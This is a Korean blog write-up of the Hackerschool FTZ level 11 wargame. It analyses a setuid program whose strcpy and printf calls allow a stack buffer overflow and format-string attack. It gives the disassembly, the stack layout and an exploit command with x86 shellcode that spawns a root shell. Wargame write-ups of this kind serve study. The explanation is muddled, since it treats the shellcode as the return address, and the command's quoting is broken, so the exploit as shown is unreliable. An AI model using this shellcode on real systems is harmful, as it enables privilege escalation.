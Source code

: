 ```yaml
---
date: '2022-10-01'
before : '2022-09-30'
after : '2022-10-02'
title: '해커스쿨 FTZ 레벨 11'
categories: ['KOR', 'pwn']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. __들어가기 전에__

조금 더 어려운 BOF문제! 물론 BOF가 아니고 Format String 기법으로도 공격할 수 있지만, 기왕 BOF 연습중인거 BOF로 풀었다.

### 1. __Level 11__

이것 또한 BOF 문제이다. 하지만 이번엔 "진짜" BOF처럼 ret값이 들어가는 주소에 쉘코드를 입력해야 한다. 이는 소스코드를 보면 확인할 수 있다.

```
#include <stdio.h>
#include <stdlib.h>

int main( int argc, char *argv[] )
{
        char str[256];

        setreuid( 3092, 3092 );
        strcpy( str, argv[1] );
        printf( str );
}
```

attackme의 소스코드다. 음..일단 tmp에 복사해서 한 번 gdb로 디버깅
해보는 것이 좋을 것 같다.

```
0x08048470 <main+0>:    push   ebp
0x08048471 <main+1>:    mov    ebp,esp
0x08048473 <main+3>:    sub    esp,0x108
0x08048479 <main+9>:    sub    esp,0x8
0x0804847c <main+12>:   push   0xc14
0x08048481 <main+17>:   push   0xc14
0x08048486 <main+22>:   call   0x804834c <setreuid>
0x0804848b <main+27>:   add    esp,0x10
0x0804848e <main+30>:   sub    esp,0x8
0x08048491 <main+33>:   mov    eax,DWORD PTR [ebp+12]
0x08048494 <main+36>:   add    eax,0x4
0x08048497 <main+39>:   push   DWORD PTR [eax]
0x08048499 <main+41>:   lea    eax,[ebp-264]
0x0804849f <main+47>:   push   eax
0x080484a0 <main+48>:   call   0x804835c <strcpy>
0x080484a5 <main+53>:   add    esp,0x10
0x080484a8 <main+56>:   sub    esp,0xc
0x080484ab <main+59>:   lea    eax,[ebp-264]
0x080484b1 <main+65>:   push   eax
0x080484b2 <main+66>:   call   0x804833c <printf>
```

다음과 같은 코드가 뜨는데, 차근차근 분석해보면
ebp-264 시점에 우리의 str[256]이 선언되는 것 같다. strcpy는 길이 체크를 하지 않으니
버퍼오버플로우의 취약점이 보인다.  


일단 264-256을 해서 더미데이터가 8바이트 존재하는걸 확인할 수 있다. 또한 기본적으로 SFP 4바이트와
ret 4바이트가 존재할 것이다. 따라서 스택구조를 재구성해보면 :
```
str[256]
dummy[8]
sfp[4]
ret[4]
```
처럼 될 것이다. 우리가 조작하고자 하는 겂은 ret값이니 우리는 총 268바이트를 사용해
뭔가를 채우고, ret에 4바이트 쉘코드를 넣어 attackme를 실행시키면 될 것 같다. 


여기서 ret니 sfp니 아무것도 모르겠다면, 컴퓨터 구조(특히 레지스터)와 어셈블리에 대한 공부가 더 필요하다고 볼 수 있겠다. 간단히만 말하자면 ret는 return해서 돌아가는 주소이고(즉, 함수가 완료될떄 다음에 실행될 코드) sfp는 현재 스택의 기준을 잡는 값으로, 만약 이게 상위에서 호출된 함수라면 그 상위 함수의 위치값을 저장해 완료시 돌아갈 위치를 세이브해준다고 생각하면 된다.


이런걸 보면 확실히 리버싱 공부를 더 해야할 것 같다. 이런 예제야 쉽지만...

```
./attackme 'python-c'print"A"*268+
"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\
x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\
x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"'

//작성한 쉘 코드.
```
쉘코드는 인터넷에 널려있다. 스스로 만들기는 아직 실력이 좀 부족하다.


아, 그리고 쉘코드가 4바이트가 넘어가는 경우도 허다한데, 이런 경우는 환경변수 등록을
통해 등록된 환경변수의 주소를 return값으로 넘겨주면 된다. 이에 대해선 level12에서
다루도록 하겠다.


비밀번호 : it is like this

---
## Source

- 해커스쿨 FTZ
- Me!